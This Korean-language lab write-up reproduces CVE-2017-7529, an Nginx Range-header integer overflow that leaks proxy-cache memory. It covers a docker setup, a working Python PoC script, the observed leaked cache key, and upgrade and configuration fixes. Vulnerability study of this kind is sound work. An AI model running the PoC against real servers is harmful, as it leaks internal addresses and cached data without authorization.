

# CVE-2017-7529 · Nginx 정수 오버플로 메모리 정보 유출

## 1. 취약점 요약

CVE ID는 CVE-2017-7529이고, 취약한 소프트웨어는 Nginx이다. 취약 버전은 0.5.6부터 1.13.2까지이며 1.13.3에서 패치되었다. 취약점 유형은 정수 오버플로(Integer Overflow)로 인한 메모리 정보 유출(Information Disclosure)이고, CVSS 3.1 점수는 NVD 기준 7.5(High)이다.

한 줄로 요약하면, 프록시 캐시가 켜진 Nginx에 조작된 Range 헤더를 보내면 정수 오버플로가 발생해 응답에 캐시 메모리 조각이 섞여 나오는 취약점이다.

## 2. 환경 구성

아래 docker-compose.yml 하나로 취약 환경이 완성된다.

```yaml
services:
    nginx:
        image: vulhub/nginx:1.13.2
        volumes:
            - ./default.conf:/etc/nginx/conf.d/default.conf
        ports:
            - "8080:8080"
```

취약 버전인 vulhub/nginx:1.13.2 이미지를 사용하며, 호스트 8080 포트를 컨테이너 8080 포트에 연결한다. docker compose up -d 명령으로 실행한다.

## 3. 취약 조건

첫째, Nginx 0.5.6 버전부터 1.13.2 버전까지 이 취약점이 존재하며 1.13.3 버전에서 패치되었다.

둘째, proxy_cache가 켜져 있을 때 캐시 파일 안에 포함된 내부 서버 주소(Cache Key) 등의 정보가 외부로 유출될 수 있다. 이 환경의 default.conf에서는 아래 설정으로 프록시 캐시가 활성화되어 있다.

```
proxy_cache_path /tmp/nginx levels=1:2 keys_zone=cache_zone:10m;
proxy_cache cache_zone;
```

## 4. 재현 절차

먼저 취약 환경을 실행한다.

```bash
docker compose up -d
```

다음으로 PoC 실행에 필요한 라이브러리를 설치한다.

```bash
pip3 install requests
```

그리고 PoC를 실행한다.

```bash
python3 poc.py http://localhost:8080/
```

마지막으로 응답 결과에서 유출된 캐시 메모리 정보(KEY: http://127.0.0.1:8081/)를 확인한다.

## 5. PoC 코드

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}

offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)

n = file_len + offset
headers["Range"] = "bytes=-%d,-%d" % (n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
print(r.text)
```

이 코드는 0x8000000000000000이라는 아주 큰 숫자를 Range 헤더에 넣어서 Nginx에 정수 오버플로를 일으킨다. 값이 뒤집히면서 Nginx가 읽을 범위를 잘못 계산해, 원래 응답 범위 밖의 앞쪽 메모리까지 읽어버린다. 그 앞쪽에 있던 프록시 캐시 정보가 응답에 딸려 나오게 된다.

## 6. 실행 결과



응답에 KEY: http://127.0.0.1:8081/ 가 포함되어 나왔다. 이는 외부에서 볼 수 없어야 할 Nginx 내부 프록시 캐시의 정보, 즉 내부 서버 주소가 유출된 것이다.

또한 응답 헤더에 Content-Range: bytes -9223372036854773979-611/612 가 나타났다. 이 거대한 숫자는 PoC가 보낸 0x8000000000000000 값이 Nginx 내부 계산에서 오버플로로 뒤집혀 생긴 값으로, 정수 오버플로가 실제로 발생했음을 보여준다.

정리하면, 취약 버전인 1.13.2와 프록시 캐시 설정이 조합된 환경에서 조작된 Range 헤더로 정수 오버플로를 유발해 캐시 메모리 정보를 유출하는 데 성공했다.

## 7. 대응 방안

가장 확실한 방법은 Nginx를 1.13.3 이상으로 업그레이드하는 것이다. 해당 버전에서 Range 헤더 처리 로직이 수정되어 정수 오버플로가 발생하지 않는다.

또한 캐시가 꼭 필요하지 않다면 proxy_cache 설정을 끄는 것이 좋다. 캐시를 사용해야 한다면 반드시 패치된 버전에서 운영해야 한다.

마지막으로 사용 중인 오픈소스의 알려진 취약점을 주기적으로 확인하고 보안 패치를 신속히 적용하는 습관이 필요하다.
